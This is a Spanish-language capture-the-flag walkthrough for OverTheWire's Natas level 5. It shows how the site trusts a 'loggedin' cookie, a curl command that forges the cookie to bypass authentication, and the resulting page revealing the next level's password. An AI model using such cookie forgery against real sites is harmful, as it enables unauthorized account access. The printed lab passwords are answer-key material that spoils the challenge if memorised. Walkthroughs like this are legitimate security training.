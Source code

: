 # Natas 5

#### URL: http://natas5.natas.labs.overthewire.org/
#### Credenciales: natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK

Existe una cookie de sesion llamada "loggedin" con valor 0, la cambiamos a 1:

![2025-03-19-174710_1366x393_scrot](https://github.com/user-attachments/assets/8451e74b-3309-446d-b626-3e397d66bba1)

``` bash
> curl -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK http://natas5.natas.labs.overthewire.org/ -H "Cookie: loggedin=1"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "0n35PkggAPm2zbEpOU802c0x0Msn1ToK" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned</div>
</body>
</html>
```

`natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned`
